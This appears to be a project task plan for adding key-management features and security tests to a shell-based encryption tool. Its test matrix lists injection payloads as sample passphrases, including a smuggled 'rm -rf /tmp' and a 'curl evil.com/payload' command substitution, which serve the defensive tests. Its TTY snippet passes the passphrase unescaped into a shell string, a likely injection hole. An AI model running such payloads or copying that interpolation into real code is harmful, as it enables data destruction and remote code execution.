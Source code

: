 **Dependencies**: TASK-003

### TASK-005: gitsim Security Test Suite (1 point)
**File**: `tests/test_ignition.sh`  
**Success Criteria**:
- Master key compromise simulation test passing
- Passphrase strength enforcement test passing
- Metadata corruption recovery test passing
- Environment variable exposure prevention test passing
- Cache security validation test passing
- **NEW**: Command injection prevention tests (per @RRR attack matrix)
- **NEW**: Named pipe security validation tests
- All tests run in isolated gitsim environments

**Attack Vector Test Matrix** (from @RRR research):
```bash
dangerous_passphrases=(
    "'; rm -rf /tmp; echo 'pwned"
    "\$(/bin/echo injection)"
    "pass\`id\`word"
    "a'b\"c\$d;e|f&g"
    "$(curl evil.com/payload)"
)
```

**Dependencies**: TASK-001-FIX (SEC-001), TASK-004

### TASK-006: Build Integration & Validation (1 point)
**Files**: Build system integration  
**Success Criteria**:
- `./build.sh` creates working padlock.sh with ignition features
- All existing tests continue to pass (no regressions)
- New ignition functionality works in compiled script
- Help system displays ignition commands properly
- Manual integration test passes

**Dependencies**: TASK-005

## Architecture Details

### Key Hierarchy Integration
```
X (Skull) => M (Master) => R (Repo) => I (Ignition Master) => D (Distributed)
```

### TTY Subversion Technique
The "Age TTY Subversion" approach gives age exactly what it wants (interactive TTY) while maintaining full automation capability:

```bash
# Age gets its beloved TTY, we get our automation
script -qec "printf '%s\\n%s\\n' '$passphrase' '$passphrase' | age -p -o '$output' '$input'" /dev/null
```
